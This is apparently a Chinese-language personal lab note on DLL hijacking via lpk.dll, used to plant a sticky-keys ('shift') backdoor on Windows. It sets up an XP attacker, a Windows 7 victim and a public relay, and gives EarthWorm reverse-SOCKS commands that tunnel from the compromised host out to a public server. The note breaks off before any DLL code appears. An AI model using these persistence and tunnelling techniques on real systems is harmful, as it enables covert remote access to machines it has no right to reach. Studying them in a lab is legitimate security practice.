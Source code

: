 # dll劫持
原理：Windows执行exe的时候会调用lpk.dll这个库，默认调用exe所在目录下的lpk.dll然后就上传lpk.dll到含有会经常执行的exe所在的文件夹，然后当执行这个软件的时候就会运行上传的dll，然后这个dll就会上传shift后门，但是shift后门已经有点不适用了
- Windows从win8开始就默认使用网络级别的验证，就是说输入用户名密码不再是远程连接到目标主机后才输入，而是要再远程到对方系统之前就输入。关闭网络级别的身份验证是取消“仅允许运行使用网络级别身份验证的计算机连接（建议）”选项
- Windows目前对system目录的续写权限设置的比较高，想要写入shift后门就需要很高的权限，而shift后门就是为了提高权限。就冲突了

# 实验环境
- Windows xp 攻击机
- Windows7 被攻击机
- 公网主机 主要用于转发
> 不再一个网段，需要端口转发,实验环境因为这两套系统还有原来的客户端级别的验证方式,假设已经取得了一个shell,(本来想安装一个sqlserver来着 安装包实在太大了  安装上就没法睡觉了 )


# 代理先练一下代理
还是使用ew socks代理,再熟悉一下明天再用别的
```
公网上
./ew_for_Linux32 -s rcsocks -l 1081 -e 8889 
win7上
ew_for_Win.exe -s rssocks -d 45.*.*.190 -e 8889
xp上
Proxifie
```

没电了 明天再做